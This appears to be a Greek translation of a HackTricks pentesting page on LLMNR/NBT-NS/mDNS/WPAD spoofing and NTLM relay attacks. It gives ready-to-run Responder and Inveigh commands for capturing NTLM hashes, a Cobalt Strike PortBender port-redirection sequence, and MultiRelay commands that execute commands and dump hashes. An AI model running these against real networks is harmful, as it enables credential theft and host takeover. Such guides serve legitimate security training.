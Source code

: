 # Spoofing LLMNR, NBT-NS, mDNS/DNS and WPAD and Relay Attacks

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Network Protocols

### Local Host Resolution Protocols
- **LLMNR, NBT-NS, and mDNS**:
- Η Microsoft και άλλα λειτουργικά συστήματα χρησιμοποιούν LLMNR και NBT-NS για τοπική ανάλυση ονομάτων όταν αποτυγχάνει το DNS. Ομοίως, τα συστήματα της Apple και του Linux χρησιμοποιούν mDNS.
- Αυτά τα πρωτόκολλα είναι ευάλωτα σε παρεμβολές και spoofing λόγω της μη αυθεντικοποιημένης, ραδιοφωνικής φύσης τους μέσω UDP.
- [Responder](https://github.com/lgandx/Responder) μπορεί να χρησιμοποιηθεί για να προσποιηθεί υπηρεσίες στέλνοντας ψευδείς απαντήσεις σε hosts που ερωτούν αυτά τα πρωτόκολλα.
- Περαιτέρω πληροφορίες σχετικά με την προσποίηση υπηρεσιών χρησιμοποιώντας το Responder μπορούν να βρεθούν [εδώ](spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md).

### Web Proxy Auto-Discovery Protocol (WPAD)
- Το WPAD επιτρέπει στους περιηγητές να ανακαλύπτουν αυτόματα τις ρυθμίσεις proxy.
- Η ανακάλυψη διευκολύνεται μέσω DHCP, DNS ή εναλλακτικά σε LLMNR και NBT-NS αν αποτύχει το DNS.
- Το Responder μπορεί να αυτοματοποιήσει τις επιθέσεις WPAD, κατευθύνοντας τους πελάτες σε κακόβουλους διακομιστές WPAD.

### Responder for Protocol Poisoning
- **Responder** είναι ένα εργαλείο που χρησιμοποιείται για την δηλητηρίαση ερωτημάτων LLMNR, NBT-NS και mDNS, απαντώντας επιλεκτικά με βάση τους τύπους ερωτημάτων, κυρίως στοχεύοντας υπηρεσίες SMB.
- Έρχεται προεγκατεστημένο στο Kali Linux, ρυθμιζόμενο στο `/etc/responder/Responder.conf`.
- Το Responder εμφανίζει τις συλληφθείσες κατακερματισμένες τιμές στην οθόνη και τις αποθηκεύει στον κατάλογο `/usr/share/responder/logs`.
- Υποστηρίζει τόσο IPv4 όσο και IPv6.
- Η έκδοση Windows του Responder είναι διαθέσιμη [εδώ](https://github.com/lgandx/Responder-Windows).

#### Running Responder
- Για να τρέξετε το Responder με προεπιλεγμένες ρυθμίσεις: `responder -I <Interface>`
- Για πιο επιθετική αναζήτηση (με πιθανές παρενέργειες): `responder -I <Interface> -P -r -v`
- Τεχνικές για να συλλάβετε προκλήσεις/απαντήσεις NTLMv1 για ευκολότερη διάσπαση: `responder -I <Interface> --lm --disable-ess`
- Η προσποίηση WPAD μπορεί να ενεργοποιηθεί με: `responder -I <Interface> --wpad`
- Τα αιτήματα NetBIOS μπορούν να επιλυθούν στη διεύθυνση IP του επιτιθέμενου, και μπορεί να ρυθμιστεί ένας proxy αυθεντικοποίησης: `responder.py -I <interface> -Pv`

### DHCP Poisoning with Responder
- Η προσποίηση των απαντήσεων DHCP μπορεί να δηλητηριάσει μόνιμα τις πληροφορίες δρομολόγησης ενός θύματος, προσφέροντας μια πιο διακριτική εναλλακτική λύση από την δηλητηρίαση ARP.
- Απαιτεί ακριβή γνώση της διαμόρφωσης του δικτύου στόχου.
- Εκτέλεση της επίθεσης: `./Responder.py -I eth0 -Pdv`
- Αυτή η μέθοδος μπορεί να συλλάβει αποτελεσματικά τις κατακερματισμένες τιμές NTLMv1/2, αλλά απαιτεί προσεκτική διαχείριση για να αποφευχθεί η διακοπή του δικτύου.

### Capturing Credentials with Responder
- Το Responder θα προσποιηθεί υπηρεσίες χρησιμοποιώντας τα παραπάνω πρωτόκολλα, συλλαμβάνοντας διαπιστευτήρια (συνήθως NTLMv2 Challenge/Response) όταν ένας χρήστης προσπαθεί να αυθεντικοποιηθεί σε κακόβουλες υπηρεσίες.
- Μπορούν να γίνουν προσπάθειες υποβάθμισης σε NetNTLMv1 ή απενεργοποίησης ESS για ευκολότερη διάσπαση διαπιστευτηρίων.

Είναι κρίσιμο να σημειωθεί ότι η χρήση αυτών των τεχνικών θα πρέπει να γίνεται νομίμως και ηθικά, εξασφαλίζοντας την κατάλληλη εξουσιοδότηση και αποφεύγοντας τη διακοπή ή μη εξουσιοδοτημένη πρόσβαση.

## Inveigh

Το Inveigh είναι ένα εργαλείο για τους δοκιμαστές διείσδυσης και τις ομάδες κόκκινων, σχεδιασμένο για συστήματα Windows. Προσφέρει λειτουργίες παρόμοιες με το Responder, εκτελώντας επιθέσεις spoofing και man-in-the-middle. Το εργαλείο έχει εξελιχθεί από ένα σενάριο PowerShell σε ένα δυαδικό αρχείο C#, με [**Inveigh**](https://github.com/Kevin-Robertson/Inveigh) και [**InveighZero**](https://github.com/Kevin-Robertson/InveighZero) ως τις κύριες εκδόσεις. Λεπτομερείς παράμετροι και οδηγίες μπορούν να βρεθούν στο [**wiki**](https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters).

Το Inveigh μπορεί να λειτουργήσει μέσω PowerShell:
```powershell
Invoke-Inveigh -NBNS Y -ConsoleOutput Y -FileOutput Y
```
Ή εκτελείται ως δυαδικό αρχείο C#:
```bash
Inveigh.exe
```
### NTLM Relay Attack

Αυτή η επίθεση εκμεταλλεύεται τις συνεδρίες αυθεντικοποίησης SMB για να αποκτήσει πρόσβαση σε μια στοχοθετημένη μηχανή, παρέχοντας ένα σύστημα shell αν είναι επιτυχής. Οι βασικές προϋποθέσεις περιλαμβάνουν:
- Ο αυθεντικοποιούμενος χρήστης πρέπει να έχει πρόσβαση Local Admin στον αναμεταδιδόμενο υπολογιστή.
- Η υπογραφή SMB θα πρέπει να είναι απενεργοποιημένη.

#### 445 Port Forwarding and Tunneling

Σε σενάρια όπου η άμεση δικτυακή εισαγωγή δεν είναι εφικτή, η κίνηση στην πόρτα 445 πρέπει να προωθηθεί και να τούνελ. Εργαλεία όπως το [**PortBender**](https://github.com/praetorian-inc/PortBender) βοηθούν στην ανακατεύθυνση της κίνησης της πόρτας 445 σε άλλη πόρτα, κάτι που είναι απαραίτητο όταν υπάρχει πρόσβαση local admin για τη φόρτωση οδηγών.

PortBender setup and operation in Cobalt Strike:
```bash
Cobalt Strike -> Script Manager -> Load (Select PortBender.cna)

beacon> cd C:\Windows\system32\drivers # Navigate to drivers directory
beacon> upload C:\PortBender\WinDivert64.sys # Upload driver
beacon> PortBender redirect 445 8445 # Redirect traffic from port 445 to 8445
beacon> rportfwd 8445 127.0.0.1 445 # Route traffic from port 8445 to Team Server
beacon> socks 1080 # Establish a SOCKS proxy on port 1080

# Termination commands
beacon> jobs
beacon> jobkill 0
beacon> rportfwd stop 8445
beacon> socks stop
```
### Άλλα Εργαλεία για Επίθεση NTLM Relay

- **Metasploit**: Ρυθμίστε με proxies, λεπτομέρειες τοπικών και απομακρυσμένων hosts.
- **smbrelayx**: Ένα σενάριο Python για την αναμετάδοση SMB συνεδριών και την εκτέλεση εντολών ή την ανάπτυξη backdoors.
- **MultiRelay**: Ένα εργαλείο από τη σουίτα Responder για την αναμετάδοση συγκεκριμένων χρηστών ή όλων των χρηστών, την εκτέλεση εντολών ή την εξαγωγή hashes.

Κάθε εργαλείο μπορεί να ρυθμιστεί να λειτουργεί μέσω SOCKS proxy αν είναι απαραίτητο, επιτρέποντας επιθέσεις ακόμη και με έμμεση πρόσβαση στο δίκτυο.

### Λειτουργία MultiRelay

Το MultiRelay εκτελείται από τον _**/usr/share/responder/tools**_ φάκελο, στοχεύοντας συγκεκριμένες IP ή χρήστες.
```bash
python MultiRelay.py -t <IP target> -u ALL # Relay all users
python MultiRelay.py -t <IP target> -u ALL -c whoami # Execute command
python MultiRelay.py -t <IP target> -u ALL -d # Dump hashes

# Proxychains for routing traffic
```
Αυτά τα εργαλεία και οι τεχνικές σχηματίζουν ένα ολοκληρωμένο σύνολο για την εκτέλεση επιθέσεων NTLM Relay σε διάφορα δίκτυα.

### Εξαναγκασμός NTLM Συνδέσεων

Στα Windows, **μπορεί να είστε σε θέση να εξαναγκάσετε κάποιους προνομιούχους λογαριασμούς να αυθεντικοποιηθούν σε αυθαίρετες μηχανές**. Διαβάστε την παρακάτω σελίδα για να μάθετε πώς:

{% content-ref url="../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md" %}
[printers-spooler-service-abuse.md](../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md)
{% endcontent-ref %}

## Αναφορές
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)
* [https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/)
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)


{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
